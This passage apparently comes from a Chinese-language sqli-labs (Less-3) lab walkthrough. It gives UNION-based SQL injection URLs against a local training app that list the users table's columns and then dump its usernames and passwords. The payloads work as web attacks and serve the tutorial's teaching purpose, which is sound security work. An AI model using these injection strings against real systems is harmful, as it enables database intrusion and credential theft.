 ![image-20240620160158458](https://raw.githubusercontent.com/XDDA11/xiaomingshuibuzhao/main/markdown/image-20240620160158458.png)

##### （3）爆字段(列)

```java
http://127.0.0.1/sqli-labs-master/Less-3/?id=-1%27)%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema%20=%20%27security%27%20and%20table_name%20=%20%27users%27--+
```

![image-20240620160925463](https://raw.githubusercontent.com/XDDA11/xiaomingshuibuzhao/main/markdown/image-20240620160925463.png)

从上图可以看出，表中的字段有id，username，password

##### (4)爆数据

```java
http://127.0.0.1/sqli-labs-master/Less-3/?id=-1%27)%20union%20select%201,2,group_concat(id,username,password)%20from%20users--+
```

![image-20240620161445162](https://raw.githubusercontent.com/XDDA11/xiaomingshuibuzhao/main/markdown/image-20240620161445162.png)

只查询用户名和密码

![image-20240620161623085](https://raw.githubusercontent.com/XDDA11/xiaomingshuibuzhao/main/markdown/image-20240620161623085.png)
